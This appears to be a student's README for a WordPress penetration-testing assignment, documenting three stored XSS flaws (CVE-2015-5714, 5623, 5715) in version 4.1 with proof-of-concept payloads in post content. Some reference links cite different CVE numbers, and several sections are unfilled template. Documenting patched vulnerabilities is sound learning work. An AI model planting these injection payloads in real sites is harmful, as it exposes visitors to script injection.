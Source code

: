 # Project 7 - WordPress Pentesting

Time spent: **10** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID: CVE-2015-5714
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.8
  - [x] GIF Walkthrough: <img src='http://i.imgur.com/cZd4map.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [x] Steps to recreate: Make a post as an admin with the following content: <p><p><a href="</p>><a href="http://onMouseOver='alert(1)'">Click me</p>
  - [x] Affected source code:
    - [Link 1](http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/)
2. (Required) Vulnerability Name or ID: CVE-2015-5623
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.6
  - [x] GIF Walkthrough: <img src='http://i.imgur.com/Du7etU8.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [x] Steps to recreate: Make a post as an admin with the following code: <a href="[caption code=">]</a><a title=" onmouseover=alert('test') ">link</a>
  - [x] Affected source code:
    - [Link 1](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622)
3. (Required) Vulnerability Name or ID: CVE-2015-5715
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.8
  - [x] GIF Walkthrough: <img src='http://i.imgur.com/eNmWwKs.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />
  - [x] Steps to recreate: Make a post with the following content: XSS LOL!!![caption width='1' caption='<a href="' ">]</a><a href="http://onMouseOver='alert(/xss/)' style='display:block;position:absolute;top:0px;left:0px;margin-left:-1000px;margin-top:-1000px;width:99999px;height:99999px;'"></a>. Then make the post private.
  - [x] Affected source code: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440
    - [Link 1](http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2017 Cho-Yuan Su

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
